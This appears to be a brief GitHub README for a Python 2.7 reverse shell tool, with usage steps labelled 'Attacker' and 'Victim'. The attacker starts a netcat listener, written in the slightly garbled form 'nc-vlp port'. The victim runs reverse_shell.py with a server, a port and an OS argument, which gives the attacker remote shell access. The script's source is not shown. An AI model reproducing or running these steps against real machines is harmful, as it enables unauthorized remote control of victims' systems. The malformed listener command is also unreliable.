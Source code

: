 # reverse shell friendly
simple tool to reverse shell using python for Linux & Windows
by : mathio.dz

## Prerequisites

Python 2.7

### Usage:
### Attacker

```
mathio@dz nc-vlp port
```

## Victim
```
python2 reverse_shell.py server port linux/windows
```

